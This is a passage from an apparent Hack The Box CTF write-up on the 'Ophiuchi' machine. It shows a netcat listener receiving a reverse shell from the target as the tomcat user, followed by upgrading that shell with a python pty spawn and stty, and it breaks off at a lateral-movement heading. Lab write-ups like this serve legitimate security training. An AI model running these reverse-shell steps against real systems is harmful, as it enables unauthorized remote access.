 Executed the second stage on the target machine and obtained the reverse shell:

![Pasted image 20210502221717.png](../../zzz_res/attachments/Pasted_image_20210502221717%201.png)

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ sudo nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.227] 53984
bash: cannot set terminal process group (831): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ id
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
tomcat@ophiuchi:/$ which python3
which python3
/usr/bin/python3
tomcat@ophiuchi:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@ophiuchi:/$ ^Z
zsh: suspended  sudo nc -nlvp 10099

┌──(kali㉿kali)-[~/CTFs/HTB/box/Ophiuchi]
└─$ stty raw -echo; fg

[1]  + continued  sudo nc -nlvp 10099

tomcat@ophiuchi:/$ export TERM=xterm
```

# Lateral Movement to admin
